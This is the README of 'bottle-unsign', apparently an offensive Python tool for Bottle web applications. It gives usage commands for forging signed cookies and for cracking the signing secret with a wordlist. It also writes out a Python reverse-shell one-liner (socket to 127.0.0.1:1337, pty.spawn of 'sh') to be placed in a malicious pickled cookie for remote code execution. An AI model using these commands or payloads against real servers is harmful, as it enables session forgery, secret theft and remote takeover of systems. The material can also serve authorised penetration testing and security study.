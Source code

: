 # bottle-unsign

bottle-unsign is a Python tool for encoding, decoding, and performing dictionary attacks on cookies using HMAC-based encryption.

## Features

- **Encode**: Encode a cookie using HMAC-based encryption with a specified key.
- **Decode**: Decode a cookie that was encoded using the same key.
- **Dictionary Attack**: Attempt to decode a cookie by testing multiple potential keys from a wordlist file.
- **Custom Encoding (RCE)**: Encode a cookie with a custom pickled object (RCE) for remote code execution.

## Installation

1. **Clone the repository:**

   ```bash
   git clone https://github.com/yourusername/bottle-unsign.git
   cd bottle-unsign
   ```

2. **Install dependencies:**

   ```bash
   pip3 install .
   ```

   This installs the required dependencies, including the `rich` library.

## Usage

### Encode a Cookie

```bash
bottle-unsign encode --cookie "('name', {'name': 'admin'})" --key your_secret
```

### Decode a Cookie

```bash
bottle-unsign decode --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --key your_secret
```

### Dictionary Attack

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist path_to_wordlist.txt
```

- **`--cookie`**: Specify the cookie string to encode, decode, or attack.
- **`--key`**: Specify the secret key for encoding, decoding, or dictionary attack.
- **`--wordlist`**: Specify the path to a wordlist file containing potential keys for dictionary attack.

## Example

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist example_wordlist.txt
```

### Generate Malicious Pickled Object
```bash
PAYLOAD='python3 -c "import os,pty,socket;s=socket.socket();s.connect((\"127.0.0.1\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")"'

bottle-unsign rce --cookie "('name', {'name': RCE()})" --key your_secret --cmd $PAYLOAD
```


## Contributing

Contributions are welcome! Please fork the repository and submit a pull request with your improvements.


## Acknowledgments

- This tool utilizes the `rich` library for colorful and interactive terminal output.
